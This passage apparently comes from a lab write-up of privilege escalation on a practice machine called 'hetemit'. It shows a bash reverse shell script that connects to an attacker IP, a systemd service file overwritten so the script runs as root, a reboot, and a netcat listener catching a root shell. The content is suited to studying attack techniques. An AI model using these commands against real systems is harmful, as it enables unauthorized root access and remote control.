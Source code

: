 I created a script that had a reverse shell payload in it and saved it to as `/home/cmeeks/revshell.sh`.

{{< highlight bash "hl_lines=1" >}}
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.229/80 0>&1
{{< /highlight >}}

I then gave the script execute permissions:

{{< bash-code >}}
[cmeeks@hetemit ~]$ chmod +x /home/cmeeks/revshell.sh
{{< /bash-code >}}

Then I used echo to write the updated service file to the `/etc/systemd/system/pythonapp.service` file. I changed the `ExecStart` and `User` values to execute the reverse shell script as the root user.

{{< bash-code >}}
[cmeeks@hetemit ~]$ echo "[Unit]
(o)>Description=Python App
(o)>After=network-online.target
(o)>
(o)>[Service]
(o)>Type=simple
(o)>WorkingDirectory=/home/cmeeks/restjson_hetemit
(o)>ExecStart=/home/cmeeks/revshell.sh
(o)>TimeoutSec=30
(o)>RestartSec=15s
(o)>User=root
(o)>ExecReload=/bin/kill -USR1 $MAINPID
(o)>Restart=on-failure
(o)>
(o)>[Install]
(o)>WantedBy=multi-user.target
(o)> " > /etc/systemd/system/pythonapp.service
{{< /bash-code >}}

Then I rebooted the machine using my sudo access:

{{< bash-code >}}
[cmeeks@hetemit ~]$ sudo /sbin/reboot
{{< /bash-code >}}

On my kali machine I listened for the reverse shell. When I received the reverse shell I had a shell as the root user:

{{< bash-code >}}
nc -nlvp 80
(o)listening on [any] 80 ...
(o)connect to [192.168.45.229] from (UNKNOWN) [192.168.227.117] 55198
(o)bash: cannot set terminal process group (1206): Inappropriate ioctl for device
(o)bash: no job control in this shell
(o)[root@hetemit restjson_hetemit]# whoami
(o)whoami
(o)root
{{< /bash-code >}}
